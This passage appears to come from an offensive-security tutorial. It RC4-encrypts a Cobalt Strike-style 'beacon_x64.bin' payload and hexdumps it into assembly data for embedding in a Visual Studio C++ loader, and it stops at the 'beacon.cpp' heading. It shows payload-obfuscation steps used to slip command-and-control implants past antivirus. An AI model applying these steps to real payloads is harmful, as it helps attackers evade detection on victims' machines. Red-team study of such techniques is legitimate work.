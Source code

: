         key = sys.argv[1]
        filename = sys.argv[2]

        with open(filename, 'rb') as f:
            data = f.read() 

        encrypted = rc4(data, key.encode())
        
        with open(f"{filename}.enc", 'wb') as f:
            f.write(encrypted)

        print(f"Written {filename}.enc")

**What Does This Script Do?**
### RC4 Encryption:
The script takes a key and a filename as input. It encrypts the file's content using the RC4 stream cipher and writes the encrypted data to a new file with the .enc extension.

So lets give a key and filename whiches we will use later.

    ➜  beacon python3 rc4.py advapi32.dll beacon_x64.bin 
    Written beacon_x64.bin.enc

We wrote its succesfully and got our .enc file.

    ➜  beacon hexdump -v -e '1/2 "dw 0%.4xh\n"' beacon_x64.bin.enc | tee out.txt 
    dw 09c14h
    dw 08cb8h
    [SNIP]
    dw 0384eh
    dw 04d38h

**Command Breakdown:**

hexdump -v:
This command is used to display the contents of the binary file (beacon_x64.bin.enc) in a human-readable format. The -v option ensures that all data is shown (without truncation).

-e '1/2 "dw 0%.4xh\n"':
This option specifies how the data should be displayed:

1/2: Process the data in chunks of 2 bytes (16 bits).
"dw 0%.4xh\n": Format the output as "dw" (word) followed by the hexadecimal value, padded to 4 digits (e.g., dw 09c14h).

Now we have out.txt which we use it on **Microsoft Visual Studio 2022** with assembly file.

So lets deploy rn **Microsoft Visual Studio 2022** and create a  new project...


### Deploy Microsoft Visual Studio 2022

We have to create New Project and choose Console App which is C++,Windows,Console

![img-description](/assets/images/Ekran Görüntüsü (38).png)

Tooo important our Application has to debug with Release | x64.

### beacon.cpp
